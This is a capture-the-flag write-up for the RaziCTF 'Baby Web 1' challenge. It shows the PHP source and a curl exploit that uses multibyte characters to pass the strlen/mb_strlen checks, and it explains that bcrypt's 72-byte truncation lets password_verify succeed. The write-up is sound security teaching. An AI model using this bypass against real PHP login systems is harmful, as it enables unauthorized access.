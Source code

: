 # Baby Web 1

## Task

Someone wrote the perfect authentication system but its only weakness is that
the previous password must be stored in the file.

Url: http://smerdis.razictf.ir/babyweb1/

Tags: Web security

## Solution

On the website we are given this source code:

```php  
<?php
$prev_pass = "66842480683974257935677681585401189190148531340690145540123461534603155084209704";
if ( isset($_GET["password"])) {
    if ( mb_strlen($_GET["password"], 'utf8') < strlen($prev_pass)){
        if ( strlen($_GET["password"]) > mb_strlen($prev_pass, "utf8")){
            $input_h = password_hash($_GET["password"], PASSWORD_BCRYPT);
            if ( password_verify($prev_pass, $input_h)){
                echo exec("cat flag.txt");
                die();
            } else {
                echo "Are you trying to hack me?!";
                die();
            }
        } else {
            echo "Nope";
            die();
        }
    } else {
        echo ":/";
        die();
    }
} else {
    highlight_file(__FILE__);
    die();
}
?>
```

We need to provide GET parameter password. It has to pass two length checks.
`mb_strlen` returns the amount of multibyte characters where as `strlen`
returns the amount of bytes.

https://www.php.net/manual/en/function.strlen.php `Note: strlen() returns the
number of bytes rather than the number of characters in a string.`

If we replace three charactes with two multibyte characters our multibyte
strlen is less than the original strlen (-3 + 2 = -1). Our strlen is also
greater than the multibyte strlen of the original pass (-3 + 4 = +1).

Let's see if that works and we get `Are you trying to hack me?!`:

```bash  
$ curl
"http://smerdis.razictf.ir/babyweb1/?password=66842480683974257935677681585401189190148531340690145540123461534603155084209$(printf
'\u1337\u1337')"  
RaziCTF{w3ll_d0nE_go_0n_to_THE_n3xT_OnE}  
```

Wait, what? How did I pass the `password_verify` check?

After debugging it locally and reducing the input one char at a time
`password_verify` returns 1 as long as the input length is greater or equal
than 72. Turns out this is also documented on
https://www.php.net/manual/en/function.password-hash.php

`Caution Using the PASSWORD_BCRYPT as the algorithm, will result in the
password parameter being truncated to a maximum length of 72 characters.`  

Original writeup (https://github.com/klassiker/ctf-
writeups/blob/master/2020/razictf/baby-web-1.md).